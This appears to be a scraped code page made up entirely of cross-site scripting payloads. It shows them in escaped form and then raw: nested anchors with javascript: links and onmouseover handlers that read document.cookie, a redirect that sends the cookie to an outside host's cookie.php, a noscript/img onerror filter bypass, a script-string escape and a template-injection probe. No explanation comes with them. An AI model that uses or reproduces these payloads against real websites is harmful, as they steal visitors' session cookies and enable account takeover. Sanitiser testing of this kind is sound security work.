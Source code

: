 #&lt;a href="http://evil.com">&lt;span class="btn button button--orange button--wide">XSS&lt;/a>&lt;/span>  &lt;h1>holaa||&lt;a href="http://&lt;a href="http://&lt;a href="http://&lt;a href="javascript:alert(documen.cookie)" onmouseover="javascript:alert(document.cookie)">aaagle.com&lt;/a>">aaale.com&lt;/a>">aaagle.com&lt;/a>">gle.com&lt;/a> hhh  &lt;h1>holaa||&lt;a href="http://&lt;a href="http://&lt;a href="http://&lt;a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">gle.com&lt;/a> hhhk


<a href="http://evil.com"><span class="btn button button--orange button--wide">XSS</a></span>

<h1>holaa||<a href="http://<a href="http://<a href="http://<a href="javascript:alert(documen.cookie)" onmouseover="javascript:alert(document.cookie)">aaagle.com</a>">aaale.com</a>">aaagle.com</a>">gle.com</a> hhh

<h1>holaa||<a href="http://<a href="http://<a href="http://<a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a> hhhk


<noscript><p title="</noscript><img src=x onerror=alert(document.cookie)>"></p></noscript>

"'`><p><svg><script>a='hello\x27;prompt(document.cookie)//';</script></p>

{%25+macro+field(x)+%25}www.com{{x}}+<b>ok</b>{%25+endmacro+%25}{{+field(1)%7curlize+}}

